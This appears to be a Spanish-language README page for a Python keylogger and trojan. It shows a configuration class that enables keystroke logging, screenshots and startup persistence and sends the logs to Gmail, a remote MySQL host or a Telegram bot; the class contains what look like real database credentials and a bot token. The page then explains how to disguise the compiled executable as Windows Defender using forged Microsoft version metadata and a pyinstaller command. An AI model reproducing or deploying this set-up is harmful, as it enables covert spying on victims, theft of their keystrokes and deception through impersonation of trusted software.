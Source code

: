 [Volver al a la documentación](../README.md)

# Custom __[Solo para programadores intemedio de python]__

Proceso de Opciones avanzada del keylogger.

__NOTA:__ Si no sabe no toque.
````py
class Config:
    def __init__(self):
        self.NAME_KEY = "WindowsDefender"+ ".exe"   # Nombre del Keylogger // Debe ser exactamente igual al Compilado *.exe
        self.NAME_REG = "Windows Defeder REG"                                           # Nombre del Keylogger en el registro
        self.PATH_HIDDEN_LOG = "C:\\Users\\Public\\Security\\Settings" + "\\"           # Ruta del Registro de teclas
        self.LOG_NAME = "reg" + ".k"
        self.PATH_HIDDEN_KEY = "C:\\Users\\Public\\Security\\Windows Defender" + "\\"   # Ruta donde se esconderá el KEYLOGGER
        self.PATH_KEY = self.PATH_HIDDEN_KEY + self.NAME_KEY    # <No cambiar>
        self.PATH_LOG = self.PATH_HIDDEN_LOG + self.LOG_NAME    # <No cambiar>
        self.USERNAME = getuser()                               # Windows UserName or custom name
        self.TROJAN = True                                      # Active or disable function Trojan
        self.STARTUP = True                                     # Active or diable function StarUp
        self.SCREENSHOT = True                                  # active or disable function Screenshot
        self.KEYLOGGER = True                                   # active or disable function Keylogger
        self.TIME_SCREENSHOT = 30 #[seconds]                    # Tiempo de intervalo de ScreenShot
        self.DELAY  = 1                                         # tiempo de retraso para evitar sobrecargos al iniciar
        self.TIME_SEND = 1 #[minutos]                           # Tiempo de envió del registro
        self.MODE_SEND = 2      # 0 = Gmail
                                # 1 = DataBase                  # Solo se puede usar una opción
                                # 2 = TelegramBot
    class DataBase:  # Clase de Base de datos
        def __init__(self):
            self.HOSTNAME = "bh1g5gnxzw2igrvui8hq-mysql.services.clever-cloud.com"  # HostName
            self.USERNAME = "udwlsyrbtldkznqo"                                      # Username
            self.PASSWORD = "OR2i2dfdgWek0UDiAv4f"                                  # Password
            self.DATABASE = "bh1g5gnxzw2igrvui8hq"                                  # DataBase Name
            self.PORT     = "3306"                                                  # Port
    class Gmail:
        def __init__(self):
            self.GMAIL_1 = "correo1@gmail.com"
            self.PASS_1  = "password1"
            self.GMAIL_2 = "correo2@gmail.com"
            self.PASS_2  = "password2"
            self.GMAIL_3 = "correo3@gmail.com"
            self.PASS_3  = "password3"
          # Solo un correo Recibirá el Registro de Teclas
            self.RECEIVERS = ["receivers1@yahoo.com"]
          # Correos que recibiran el Registro de teclas, pueden ser de 1 a muchos
          # self.RECEIVERS = ["receivers1@yahoo.com","receivers2@gmail.com","receivers3@hotmail.com"]
    class TelegramBot:
        def __init__(self):
            self.ID   = 833456944                                                     # ID Principal [Obligatorio]
            self.ID_2 = 000000000                                                     # ID secundario [Opcional]
            self.ID_3 = 000000000                                                     # ID Terciario  [Opcional]
            self.TOKEN = "1345614169:AAE7O_jRBhIkq_minXh52Ws2SV3wlPfp844"             # TOKEN de tu Bot [Obligatorio]
            # Personalize
            self.LEN_TEXT = 3000  #    [Longitud maxima por mensaje es de = 4000] # Solo se enviará el registro si sobrepasa la longitud especificada
````

# Proceso de conversión: `*.py a *.exe`
Se utilizará `pyinstaller`
1. En la carpeta principal encontrará dos archivos, uno llamado `icon.ico` y el otro `version.txt`, éstos 2 archivos son importantes para la conversión del `*.py a *.exe`.
    - `icon.ico` = El icono que tendrá el keylogger al ser convertido
    - `version.txt` = Información detallada del keyloger.
    
    Si el siguiente proceso se realiza con exito, el keylogger estará disfrazado así como las siguientes imagenes.
    

    ![Imagen1](https://i.imgur.com/MQAiVnJ.png)
    ![Imagen2](https://i.imgur.com/mTBByRy.png)

    ![Imagen1](https://i.imgur.com/wGTfC4T.png)
    ![Imagen2](https://i.imgur.com/Txt3QFS.png)





    Toda esa información puede ser modificada en el archivo de la plantilla `version.txt`
2. __Disfraz _[Información]_:__ El el siguiente archivo `version.txt`, puedes modificar la información del `*.exe` la cual se supone que de ser creible.
````r
VSVersionInfo(
  ffi=FixedFileInfo(
    filevers=(6, 1, 7601, 17514),
    prodvers=(6, 1, 7601, 17514),
    mask=0x3f,
    flags=0x0,
    OS=0x40004,
    fileType=0x1,
    subtype=0x0,
    date=(0, 0)
    ),
  kids=[
    StringFileInfo(
      [
      StringTable(
        u'040904B0',
        [StringStruct(u'CompanyName', u'Microsoft CorpoKeyloggerion'),
        StringStruct(u'FileDescription', u'Windows Security Health Host Key'),
        StringStruct(u'FileVersion', u'6.1.7601.17514 (win7sp1_rtm.101119-1850)'),
        StringStruct(u'InternalName', u'Windows Defender'),
        StringStruct(u'LegalCopyright', u'\xa9 Microsoft CorpoKeyloggerion. All rights reserved.'),
        StringStruct(u'OriginalFilename', u'SecurityHealthHostKey.exe'),
        StringStruct(u'ProductName', u'Microsoft\xae Windows\xae OpeKeyloggering System'),
        StringStruct(u'ProductVersion', u'6.1.7601.17514')])
      ]), 
    VarFileInfo([VarStruct(u'Translation', [1033, 1200])])
  ]
)
````




3. __Conversión final:__
Mediante Consola debe dirigirse a la carpeta principal.
Los requisitos es tener instalada la librería `pyinstaller`, porfavor mire un tutorial antes de hacer éste proceso, la linea de comando recomendada es la siguiente:


````bat
pyinstaller --clean   --distpath "EXE" -F --windowed --icon icon.ico --version-file version.txt "Tu nombre custom".py
````